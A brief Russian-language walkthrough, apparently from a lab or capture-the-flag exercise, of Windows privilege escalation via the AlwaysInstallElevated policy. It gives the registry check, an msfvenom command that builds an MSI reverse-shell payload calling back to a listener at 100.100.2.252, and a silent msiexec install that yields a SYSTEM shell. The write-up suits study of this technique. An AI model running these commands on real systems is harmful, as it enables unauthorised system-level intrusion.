 Подключаемся к машине и проверяем включена ли политика AlwaysInstallElevated
```shell
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```
Политика имеет значение (0x1) - включена

Создаем полезную нагрузку msi и запускаем слушателя ```
 msfvenom -p windows/x64/shell_reverse_tcp LHOST=100.100.2.252 LPORT=4444 -f msi -o test.msi```
 Передаем на машину и запускаем установку msiexec.exe /quiet /qn /i test.msi
 Получаем обратный шелл от системы и забираем флаг

